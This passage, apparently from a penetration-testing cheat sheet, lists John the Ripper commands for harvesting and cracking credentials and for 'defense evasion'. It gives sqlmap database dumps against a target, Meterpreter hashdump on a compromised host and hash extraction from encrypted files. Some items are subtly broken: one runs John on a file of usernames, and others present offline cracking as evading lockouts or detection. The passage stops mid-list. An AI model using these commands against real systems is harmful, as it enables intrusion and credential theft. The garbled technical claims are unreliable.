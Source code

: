 #### Credential Harvesting

John the Ripper can be used to harvest and crack credentials in various penetration testing scenarios.

1. **Harvesting Passwords from a Web Application**: Uses `sqlmap` to extract password hashes from a web application and cracks them with John.
    ```bash
    sqlmap -u "http://target.com/vulnerable_param" --dump --output-dir=./
    john --wordlist=<wordlist> --format=raw-md5 dumped_hashes.txt
    ```
2. **Harvesting Passwords from Network Traffic**: Extracts FTP usernames from captured network traffic and uses them with John to crack passwords.
    ```bash
    tshark -r capture.pcap -Y "ftp.request.command == USER" -T fields -e ftp.request.arg > ftp_users.txt
    john --wordlist=<wordlist> ftp_users.txt
    ```
3. **Harvesting Passwords from a Compromised System**: Extracts password hashes from a compromised system using Meterpreter, then cracks them with John.
    ```bash
    meterpreter > hashdump
    john --wordlist=<wordlist> --format=nt hashdump.txt
    ```
4. **Harvesting Passwords from Encrypted Files**: Extracts and cracks password hashes from GPG-encrypted files.
    ```bash
    gpg2john <encrypted_file.gpg> > gpghash.txt
    john --wordlist=<wordlist> gpghash.txt
    ```
5. **Harvesting Passwords from Encrypted Archives**: Extracts password hashes from 7z-encrypted archives and cracks them.
    ```bash
    7z2john.pl <encrypted.7z> > 7zhash.txt
    john --wordlist=<wordlist> 7zhash.txt
    ```

#### Defense Evasion and Bypassing Protections

John the Ripper includes techniques for evading detection and bypassing security measures during password cracking.

1. **Evading Account Lockouts**: Limits the run-time to avoid triggering account lockouts, then resumes after a delay.
    ```bash
    john --incremental --max-run-time=10 <password_file>
    sleep 60
    ```
2. **Bypassing Password Complexity Requirements**: Combines wordlist rules and masks to bypass password complexity requirements.
    ```bash
    john --wordlist=<wordlist> --rules=single --mask=?u?l?l?d?d?d <password_file>
    ```
3. **Cracking Passwords Without Detection**: Uses short cracking intervals and disables logging to minimize detection risk.
    ```bash
    john --incremental --max-run-time=5 --nolog <password_file>
    ```
4. **Stealth Cracking on Shared Systems**: Limits memory usage and disables logging for stealthier operation on shared systems.
    ```bash
    john --fork=2 --mem-file-size=50MB --nolog <password_file>
    ```
5. **Obfuscating Cracking Activities**: Uses multiple techniques to obfuscate the cracking process, reducing the chance of detection.